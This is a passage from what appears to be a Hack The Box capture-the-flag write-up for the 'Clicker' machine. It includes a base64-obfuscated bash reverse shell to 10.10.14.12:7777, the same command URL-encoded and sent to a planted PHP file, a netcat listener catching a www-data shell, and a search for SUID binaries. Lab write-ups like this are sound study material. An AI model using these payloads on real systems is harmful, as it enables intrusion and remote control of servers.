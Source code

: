 
![id check](/img/clicker/clicker_export_cmd_id.png)

It works! Now for an easy shell.

```
echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi83Nzc3IDA+JjEnCg== | base64 -d | bash
%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%59%79%41%6e%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%78%4d%69%38%33%4e%7a%63%33%49%44%41%2b%4a%6a%45%6e%43%67%3d%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68

http://clicker.htb/exports/top_players_hx1yqj6z.php?0=%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%59%79%41%6e%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%78%4d%69%38%33%4e%7a%63%33%49%44%41%2b%4a%6a%45%6e%43%67%3d%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Clicker]
└──╼ $nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.11.232 39696
bash: cannot set terminal process group (1200): Inappropriate ioctl for device
bash: no job control in this shell
www-data@clicker:/var/www/clicker.htb/exports$ 
```

<h1>User as jack</h1>

<h2>execute_query</h2>

```bash
www-data@clicker:/var/www/clicker.htb/exports$ find / -perm /4000 2>/dev/null
find / -perm /4000 2>/dev/null
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/fusermount3
/usr/bin/su
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/mount
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/libexec/polkit-agent-helper-1
/usr/sbin/mount.nfs
/opt/manage/execute_query
www-data@clicker:/var/www/clicker.htb/exports$ cd /opt/manage
cd /opt/manage
www-data@clicker:/opt/manage$ ls
ls
```